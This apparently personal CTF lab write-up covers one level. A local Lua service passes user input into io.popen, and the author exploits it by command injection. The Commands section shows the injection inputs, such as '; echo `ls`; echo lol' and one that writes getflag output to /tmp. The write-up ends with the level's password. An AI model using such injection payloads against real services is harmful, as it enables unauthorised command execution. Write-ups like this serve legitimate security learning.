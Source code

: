 # LEVEL 11

## 💡 Explanation

In this level we have to:
1. Check the permissions of level11.lua
2. Check the code => we see that it opens a socket on localhost:5151
3. When we launch it, it give an error saying that the address is not available, but we cannot see anything with `netstat`, it should be another user (probs flag11) who is running it.
4. If the open a listener on the port 5151 it replies asking for the password so the program it is being executed in the background!
5. Now we need to understand how to exploit it => It uses the function `io.popen`, which executes a command!!
6. The command it is using concatenates an `echo` with the input we give and then it pipes it to a `sha1sum`. Voilà

What helped A LOT was to write a lot of prints in between and do another code and also luch it in the backgroup with another port, so I could test everything 😊 => `alias lua=/Users/cristina/Downloads/lua-5.4.4/src/lua` and `lua level11_cristina.lua`

## 👾 Commands

To find the solution:
```
la -la level11.lua
./level11.lua
netstat -ltnp | grep -w ':5151'
scp -P 4242 level11@192.168.56.3:/home/user/level11/level11.lua .
nc localhost 5151
Password: 
Password: a => Checked with sha1sum
Password: ; echo `ls`; echo lol
```

To exploit the security hole:
- `nc localhost 5151`
- `o; echo 'getflag' > /tmp/flag; echo lol`  (*)
- `cat /tmp/flag`
(*) Be careful with the quotes on que second command, it should be (`) instead of (').

## 🔍 Resources

- [Address already in use while binding socket](https://stackoverflow.com/questions/5106674/error-address-already-in-use-while-binding-socket-with-address-but-the-port-num)
- [Find out used ports](https://www.tecmint.com/find-out-which-process-listening-on-a-particular-port/)
- [Install sha1sum](https://command-not-found.com/sha1sum)
- [Lua - Online demo](https://www.lua.org/cgi-bin/demo)
- [Lua - Download](http://www.lua.org/download.html)
- [Lua - Conditions](https://craftstudio.fandom.com/fr/wiki/Tutoriels/Apprendre_%C3%A0_programmer_en_Lua/Les_conditions#:~:text=Le%20If%20est%20la%20structure,plac%C3%A9e%20entre%20then%20et%20end.)
- [Lua - Concatenation](https://www.lua.org/pil/3.4.html)
- [Lua - io.open](https://www.tutorialspoint.com/lua/lua_file_io.htm)
- [Lua - io.read](http://www.lua.org/pil/21.1.html)
- [Lua - io.popen](https://www.tutorialspoint.com/io-popen-function-in-lua-programming)

## 🔥 Password
`fa6v5ateaw21peobuub8ipe6s`
